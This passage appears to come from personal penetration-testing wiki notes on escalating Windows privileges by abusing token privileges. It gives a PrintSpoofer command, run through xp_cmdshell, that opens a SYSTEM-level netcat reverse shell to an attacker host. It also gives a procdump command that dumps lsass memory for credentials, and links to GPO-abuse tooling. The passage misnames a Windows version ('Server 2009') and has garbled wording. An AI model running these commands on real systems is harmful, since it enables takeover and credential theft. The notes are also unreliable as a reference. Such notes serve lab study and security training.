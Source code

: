 Then the attacker get an inbound connection from the target on port 8443. The `whoami` command says the user is `nt authority\system`.

**PrintSpoofer and RoguePotato**

JuicyPotato doesn't work on Windows Server 2009 and Windows 10 but **PrintSpoofer** and **RoguePotato** do.

```
# attacker
nc -lnvp 8443
```

```
# target
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

Still, once the attacker catches the shell, the `whoami` command says that the user is `nt authority\system`.

### SeDebugPrivilege

This privilege can be used to debug programs, capture sensitive information from system memory, access/modify kernel and application structures.

```
PS> whoami
```

The user has the following privileges :

| Privilege Name                | Description                    | State    |
| ----------------------------- | ------------------------------ | -------- |
| SeDebugPrivilege              | Debug programs                 | Disabled |
| SeChangeNotifyPrivilege       | Bypass traverse checking       | Enabled  |
| SeIncreaseWorkingSetPrivilege | Increase a process working set | Disabled |

[Procdump](typora://app/wiki/tools/sysinternals/procdump.md)

```
procdump.exe -ma lsass.exe lsass.dmp
```

### SeTakeOwnershipPrivilege

It can be used to change the ownership of any secured object like AD objects, NFTS files/folders, printers, registry keys, services and processes. It assigns WRITE\_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor.

`Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

It can lead to get sensitive data, RCE or DOS. It's possible to abuse GPO with [SharpGPOAbuse](https://doc.nightblue.org/docs/wiki/tools/sharp-gpo-abuse). To leverage privilege, you can enable all token privileges with this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1). Then the select the targer file and execute the PowerShell command to get information.

